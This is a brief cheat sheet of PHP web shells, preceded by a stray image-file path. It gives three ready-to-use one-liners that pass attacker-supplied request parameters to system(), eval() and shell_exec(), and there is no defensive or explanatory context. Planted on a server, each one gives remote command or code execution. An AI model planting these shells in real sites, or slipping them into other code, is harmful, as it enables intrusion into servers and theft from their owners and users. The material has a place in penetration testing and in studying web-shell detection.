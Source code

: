## Web Shell Cheat Sheet

Below are some examples of web shells:

### PHP

1. PHP System Web Shell:
```php
<?php system($_GET['cmd']); ?>
```

2. PHP Eval Web Shell
```php
<?php eval($_POST['cmd']); ?>
```

3. PHP Shell Exec Web Shell
```php
<?php echo shell_exec($_GET['cmd']); ?>
```


